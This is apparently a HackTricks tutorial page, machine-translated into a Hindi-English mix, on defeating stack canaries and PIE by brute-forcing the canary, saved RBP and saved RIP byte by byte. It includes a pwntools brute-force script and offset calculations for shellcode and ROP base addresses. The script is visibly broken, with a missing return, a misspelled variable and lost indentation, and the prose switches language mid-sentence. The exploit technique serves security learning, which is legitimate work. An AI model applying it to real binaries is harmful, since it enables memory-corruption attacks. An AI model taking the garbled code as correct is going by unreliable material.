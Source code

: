 # BF Addresses in the Stack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**यदि आप एक बाइनरी का सामना कर रहे हैं जो एक कैनरी और PIE (पोजीशन इंडिपेंडेंट एक्सीक्यूटेबल) द्वारा सुरक्षित है, तो आपको शायद उन्हें बायपास करने का एक तरीका खोजने की आवश्यकता है।**

![](<../../../../.gitbook/assets/image (144).png>)

{% hint style="info" %}
ध्यान दें कि **`checksec`** यह नहीं पहचान सकता है कि एक बाइनरी कैनरी द्वारा सुरक्षित है यदि इसे स्थिर रूप से संकलित किया गया था और यह कार्य को पहचानने में असमर्थ है।\
हालांकि, आप इसे मैन्युअल रूप से देख सकते हैं यदि आप पाते हैं कि एक मान एक फ़ंक्शन कॉल की शुरुआत में स्टैक में सहेजा गया है और इस मान की जांच निकासी से पहले की जाती है।
{% endhint %}

## Brute-Force Addresses

PIE को बायपास करने के लिए आपको **कुछ पते लीक करने की आवश्यकता है**। और यदि बाइनरी कोई पते लीक नहीं कर रही है, तो इसे करने का सबसे अच्छा तरीका है **कमजोर फ़ंक्शन में स्टैक में सहेजे गए RBP और RIP को ब्रूट-फोर्स करना।**\
उदाहरण के लिए, यदि एक बाइनरी को **कैनरी** और **PIE** दोनों का उपयोग करके सुरक्षित किया गया है, तो आप कैनरी को ब्रूट-फोर्स करना शुरू कर सकते हैं, फिर **अगले** 8 बाइट्स (x64) सहेजे गए **RBP** होंगे और **अगले** 8 बाइट्स सहेजे गए **RIP** होंगे।

{% hint style="success" %}
यह माना जाता है कि स्टैक के अंदर लौटने वाला पता मुख्य बाइनरी कोड से संबंधित है, जो, यदि कमजोर बिंदु बाइनरी कोड में स्थित है, तो आमतौर पर ऐसा ही होगा।
{% endhint %}

बाइनरी से RBP और RIP को ब्रूट-फोर्स करने के लिए आप यह पता लगा सकते हैं कि एक मान्य अनुमानित बाइट सही है यदि प्रोग्राम कुछ आउटपुट करता है या यह बस क्रैश नहीं होता है। **कैनरी को ब्रूट-फोर्स करने के लिए प्रदान की गई** **समान फ़ंक्शन** का उपयोग RBP और RIP को ब्रूट-फोर्स करने के लिए किया जा सकता है:
```python
from pwn import *

def connect():
r = remote("localhost", 8788)

def get_bf(base):
canary = ""
guess = 0x0
base += canary

while len(canary) < 8:
while guess != 0xff:
r = connect()

r.recvuntil("Username: ")
r.send(base + chr(guess))

if "SOME OUTPUT" in r.clean():
print "Guessed correct byte:", format(guess, '02x')
canary += chr(guess)
base += chr(guess)
guess = 0x0
r.close()
break
else:
guess += 1
r.close()

print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
return base

# CANARY BF HERE
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary

# PIE BF FROM HERE
print("Brute-Forcing RBP")
base_canary_rbp = get_bf(base_canary)
RBP = u64(base_canary_rbp[len(base_canary_rbp)-8:])
print("Brute-Forcing RIP")
base_canary_rbp_rip = get_bf(base_canary_rbp)
RIP = u64(base_canary_rbp_rip[len(base_canary_rbp_rip)-8:])
```
The last thing you need to defeat the PIE is to calculate **उपयोगी पते** from the leaked **पते**: the **RBP** and the **RIP**.

From the **RBP** you can calculate **आपका शेल स्टैक में कहाँ लिखा जा रहा है**. This can be very useful to know **आप कहाँ स्ट्रिंग _"/bin/sh\x00"_ को स्टैक के अंदर लिखने जा रहे हैं**. To calculate the distance between the leaked RBP and your shellcode you can just put a **ब्रेकपॉइंट RBP लीक करने के बाद** an check **आपका शेलकोड कहाँ स्थित है**, then, you can calculate the distance between the shellcode and the RBP:
```python
INI_SHELLCODE = RBP - 1152
```
From the **RIP** you can calculate the **base address of the PIE binary** which is what you are going to need to create a **valid ROP chain**.\
To calculate the base address just do `objdump -d vunbinary` and check the disassemble latest addresses:

![](<../../../../.gitbook/assets/image (145).png>)

इस उदाहरण में आप देख सकते हैं कि सभी कोड को स्थानांतरित करने के लिए केवल **1 बाइट और आधा** आवश्यक है, फिर, इस स्थिति में आधार पता **लीक किए गए RIP पर "000" के साथ समाप्त होगा**। उदाहरण के लिए, यदि आपने `0x562002970ecf` लीक किया, तो आधार पता `0x562002970000` है।
```python
elf.address = RIP - (RIP & 0xfff)
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे साथ जुड़ें** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
